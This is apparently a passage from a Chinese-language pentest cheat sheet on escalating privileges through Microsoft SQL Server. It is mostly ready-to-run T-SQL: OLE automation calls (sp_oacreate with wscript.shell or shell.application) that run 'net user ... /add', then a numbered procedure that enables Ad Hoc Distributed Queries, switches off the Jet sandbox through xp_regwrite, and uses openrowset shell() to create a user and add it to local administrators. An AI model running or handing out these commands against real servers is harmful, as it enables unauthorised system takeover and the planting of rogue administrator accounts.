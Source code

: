 提权（添加用户）：

```
declare @shell int
exec sp_oacreate 'wscript.shell', @shell out
exec sp_method @shell, 'run' , null, 'c:\windows\system32\cmd.exe \c "net user test test /add" '
或者
declare @shell int
exec sp_oacreate 'shell.application',@shell out
exec sp_oamethod @shell, 'shellexecute', null, 'cmd.exe', 'cmd /c net user test test /add', 'c:\windows\system32', '','1';
```



#### sqlserver沙盒

沙盒与虚拟机类似，为运行中的程序提供的隔离环境。通常是作为一些来源不可信、具破坏力或无法判定程序意图的程序提供实验之用。

沙盒中的所有改动对操作系统不会造成任何损失。

**提权流程：**

1. 提权语句

   ```
   exec sp_configure 'show advanced options',1;reconfigure;
   exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
   ```

2. 关闭沙盒模式，如果一次执行全部代码有问题，先执行上面两句代码。

   ```
   exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;
   ```

3. 查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。

   ```
   exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
   ```

4. 执行系统命令

   ```
   select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net user qianxun 123456 /add")')
   select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("net localgroup administrators qianxun /add")')
   ```

5. 可以恢复配置

   ```
   exec master..xp_regwrite 'HKEY_LOCALMACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1;
   exec sp_configure 'Ad Hoc Distributed Queries',0;reconfigure;
   exec sp_configure 'show advanced options',0;reconfigure;
   ```
